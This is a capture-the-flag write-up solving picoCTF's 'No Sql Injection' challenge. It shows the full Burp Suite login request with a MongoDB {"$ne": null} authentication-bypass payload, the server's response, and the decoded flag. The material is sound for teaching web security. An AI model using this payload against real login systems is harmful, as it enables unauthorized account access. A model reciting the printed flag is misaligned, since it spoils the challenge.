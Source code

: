 ## No Sql Injection

Challenge description:
```
Can you try to get access to this website to get the flag?
You can download the source here.
Additional details will be available after launching your challenge instance.
```

Hints:
```
Not only SQL injection exist but also NonSQL injection exists.
Make sure you look at everything the server is sending back.
```

The provided source code link is:
```
https://artifacts.picoctf.net/c_atlas/37/app.tar.gz
```

The challenge instance launched:
```
http://atlas.picoctf.net:61076/
```

Initially the file type of the source code is checked using ```file app.tar.gz```. The output:
```
app.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
```

Thus it is unzipped using:
```
tar -xvf app.tar.gz
```

The structure is :
```
admin.html  index.html  package.json  server.js
```

On going through all the files, in the ```server.js``` file, the following existing user credentials are found:
```
    // Store initial user
    const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
```

This email is used to login in the website page. Looking up syntax for no sql injections (since this website uses mongodb), the following is found for the password field:
```
{"$ne": null}
```

The request sent in Burpsuite is as follows:
```
POST /login HTTP/1.1
Host: atlas.picoctf.net:61076
Content-Length: 66
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://atlas.picoctf.net:61076
Referer: http://atlas.picoctf.net:61076/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"picoplayer355@picoctf.org","password":"{\"$ne\": null}"}
```


The reponse is:
```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 186
ETag: W/"ba-7/pkE41Bq9cbRmeDm6aZ+wsgexM"
Date: Tue, 10 Dec 2024 08:38:10 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"success":true,"email":"picoplayer355@picoctf.org","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzY3YjFhM2M4fQ==","firstName":"pico","lastName":"player"}
```

The token field is highlighted, and BurpSuite automaticall converts it into Base64, which is our flag:
```
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_67b1a3c8}
```


The following website is used for getting syntax for noSQL injection:
```
https://book.hacktricks.xyz/pentesting-web/nosql-injection
```

